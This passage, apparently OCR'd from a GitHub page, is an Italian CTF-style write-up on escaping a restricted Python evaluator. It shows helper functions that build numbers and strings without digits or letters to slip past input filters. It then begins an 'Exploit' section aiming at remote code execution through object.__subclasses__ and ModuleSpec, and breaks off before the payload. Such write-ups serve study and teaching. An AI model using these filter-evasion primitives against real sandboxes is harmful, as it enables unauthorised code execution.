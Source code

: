 ```python
def define_zero() -> str:
    # exactly one '=' and one '<' in the whole payload
    return "(X:=[]<[])"
```

```python
@lru_cache(maxsize=None)
def n_expr(n: int) -> str:
    """
    Build an integer expression using only:
      - X (assumed 0)
      - unary operators ~ and -~
    No digits in source.
    """
    if n == 0:
        return "X"
    if n == -1:
        return "~X"
    return "(" + "-~" * n + "X" + ")"
```

#### **Evochiamo stringhe senza lettere**:

È poco noto ma l’operatore binario `%`, se applicato a una stringa, può essere usato per formattare stringhe, in modo analogo a `printf` in C.
Lo specificatore `%c` è notevole perché formatta un carattere a partire dal codepoint, cioè dall’ASCII per quello che ci serve. Per esempio, il codepoint dell’underscore è 95, quindi `"%c" % 95 = "_"`.
A questo punto possiamo costruire qualunque numero e qualunque stringa.

Questa è la primitiva che abbiamo usato per costruire stringhe arbitrarie:

```python
def str_expr(s: str) -> str:
    """
    Build a string literal via "%c"*k % (codepoints...),
    where each codepoint is built via n_expr.
    Only % as BinOp; no forbidden letters in source.
    """
    parts = [n_expr(ord(ch)) for ch in s]
    return '"' + ("%c" * len(parts)) + '"%(' + ",".join(parts) + ")"
```

### Exploit

L’exploit consiste in due parti:

1. Accesso a ModuleSpec (Probe)
2. RCE (Exec)

#### Sondaggio

Tutte le classi in Python ereditano da `object` e ogni classe ha un attributo `__subclasses__`. Possiamo quindi raggiungere `ModuleSpec` da lì. La domanda è come arrivare a `object`.

